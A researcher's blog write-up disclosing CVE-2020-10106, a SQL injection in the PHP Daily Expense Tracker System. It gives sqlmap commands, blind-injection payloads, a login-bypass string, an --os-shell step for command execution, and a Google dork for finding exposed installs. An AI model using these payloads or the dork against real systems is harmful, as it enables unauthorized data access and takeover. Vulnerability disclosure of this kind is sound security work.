 ```yaml
---
title: CVE-2020-10106
author: frosty
date: 2020-03-04 12:00:00 +0000
categories: [cve]
tags: [cve]     # TAG names should always be lowercase
---
```


Daily Expense Tracker System (DETS) is vulnerable to SQL injection. This post will be a brief write up about discovery and exploitation of CVE-2020-10106. These vulnerabilities exist in the Daily Expense Tracker System project version 1, which you can download from PHPGurukul, [here](https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/). 

According to PHPGurukul's website, this application has been downloaded 499 times - at time of vulnerability discovery. Using Google Dorks method of `intitle:"Daily Expense Tracker - Login"` there are some sites which could be vulnerable - unknown without confirmation.

* * *

## Discovering the Vulnerability

I installed the DETS application using Bitnami XAMPP for Linux (aka LAMPP). The user lands on a login page within index.php. After static code analysis, it appeared that the SQL query could be vulnerable. More specifically, the email parameter. I believe that the password parameter is not vulnerable to SQL injection is because user input is hashed on the client side. This means that SQL injction payloads will be hashed and therefore cannot be interpreted by the SQL engine as special characters. The same cannot be said about the email parameter, which directly takes user input in the SQL query.

<figure>

![](assets/img/cve/2020-10106/image-1024x442.png)

<figcaption>

index.php contents

</figcaption>

</figure>

* * *

## Verifying the Vulnerability

I captured a login request with Burpsuite and exported it to a file, which allows further investigation using sqlmap.

<figure>

![](assets/img/cve/2020-10106/image-1.png)

<figcaption>

Login request

</figcaption>

</figure>

<figure>

![](assets/img/cve/2020-10106/image-2-1024x562.png)

<figcaption>

sqlmap output

</figcaption>

</figure>

I appreciate that the sqlmap output could be squashed a lot in this instance. Here is the key information:

```
$ sqlmap -r <login-request-file> --dbms=mysql

sqlmap identified the following injection point(s) with a total of 65 HTTP(s) requests:

---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    payload: email=oliver@frostylabs.net' AND (SELECT 7366 FROM (SELECT(SLEEP(5)))NgAy) AND 'KQtM'='KQtM&password=p4ssw0rd&login=login
---
```

The application is vulnerable to unauthenticated time-based SQL injection. Using sqlmap's `--dump` flag, it is possible to dump the users table, and the associated account hash.

<figure>

![](assets/img/cve/2020-10106/image-3.png)

<figcaption>

tables

</figcaption>

</figure>

<figure>

![](assets/img/cve/2020-10106/image-4-1024x146.png)

<figcaption>

tbluser contents

</figcaption>

</figure>

When using valid credentials in the sqlmap query, it is possible to perform a boolean based SQL injection.

```
---
parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: email=test@gmail.com' AND 7009=7009 AND 'wGtm'='wGtm&password=123&login=login
---
```

* * *

## Further Exploitation

In addition to `index.php`, the same vulnerabilities as described above exist in `register.php` and `forgot-password.php`.

In addition to the Blind SQL injection, using the following payload allows for a complete bypass of the login prompt. However, the login prompt requires that an email is input, otherwise the user is not permitted to submit the form. This is overcame by intercepting the POST request, and altering the query. The HTTP 302 response as seen in the image below proves that the SQL injection has been successful.

```
a' OR '1'='1'; -- -
```

<figure>

![](assets/img/cve/2020-10106/image-12-1024x249.png)

<figcaption>

SQL Injection Authentication Bypass

</figcaption>

</figure>

* * *

### Bonus

It is possible to leverage the SQL injection vulnerability to get remote command execution. However, the RCE vulnerability depends on SQLi therefore in my opinion the web application is not directly vulnerable to RCE, but rather RCE through SQLi. SQLMap is able to obtain this with the `--os-shell` flag.

```
$ sqlmap -r <login-request-file> --dbms=mysql --os-shell
```

<figure>

![](assets/img/cve/2020-10106/image-5-1024x673.png)

<figcaption>

Spawn a pseudo shell

</figcaption>

</figure>
